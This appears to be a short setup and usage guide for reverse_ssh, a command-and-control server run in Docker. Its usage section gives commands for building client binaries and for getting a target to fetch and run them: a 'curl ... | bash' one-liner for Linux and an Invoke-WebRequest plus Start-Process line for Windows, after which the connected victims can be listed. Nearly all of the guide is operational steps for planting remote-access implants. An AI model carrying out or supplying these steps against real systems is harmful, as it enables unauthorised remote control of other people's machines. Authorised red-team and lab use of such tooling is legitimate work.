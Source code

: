 # Requirements

- Server

# Setup

- clone the repository
```
https://github.com/NHAS/reverse_ssh.git
```

- Generate a new SSH key pair
```
ssh-keygen -t rsa -b 4096 -C "email@gmail.com"
```

- Get the ip of your server
```
ip a
```

- run the docker script with the ip of the server on the port 3232
```
docker run -p3232:2222 -e EXTERNAL_ADDRESS=<your.rssh.server.internal>:3232 -e SEED_AUTHORIZED_KEYS="$(cat $HOME/.ssh/id_rsa.pub)" -v ./data:/data reversessh/reverse_ssh
```

- alternative is to run docker compose
```
services:
  reversessh:
    image: reversessh/reverse_ssh
    ports:
      - "3232:2222"
    environment:
      - EXTERNAL_ADDRESS=<your.rssh.server.internal>:3232
      - RSSH_CONSOLE_LABEL=c2.label
      - RSSH_LOG_LEVEL=INFO # DISABLED, INFO, WARNING, ERROR, FATAL
      - SEED_AUTHORIZED_KEYS=${SSH_PUBLIC_KEY}
    volumes:
      - ./data:/data
```

# Usage

```
# Connect to the server console
ssh your.rssh.server.internal -p 3232


# List all server console commands
catcher$ help

# Build a new client and host it on the in-built webserver
# For linux
catcher$ link

# curl or wget this binary to a target system then execute it,
curl http://192.168.0.11:3232/4bb55de4d50cc724afbf89cf46f17d25.sh |  bash

# For windows
catcher$ link --goos windows

Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\test.exe 

# then we can then list what clients are connected
catcher$ ls
```
